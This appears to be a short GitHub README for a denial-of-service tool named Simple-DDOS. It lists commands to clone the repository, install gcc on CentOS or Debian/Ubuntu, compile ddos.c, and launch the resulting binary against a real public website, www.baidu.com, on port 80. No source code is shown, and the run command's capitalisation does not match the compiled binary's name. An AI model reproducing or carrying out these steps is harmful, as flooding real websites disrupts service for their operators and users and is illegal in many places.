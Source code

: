 `git clone git@github.com:Lampese/Simple-DDOS.git

cd Simple-DDOS`

CentOS:

`yum install gcc

gcc -W -Wall ddos.c -o ddos`

Debian/Ubuntu

`apt-get install gcc

gcc -W -Wall ddos.c -o ddos`

at last

`./DDOS www.baidu.com 80`
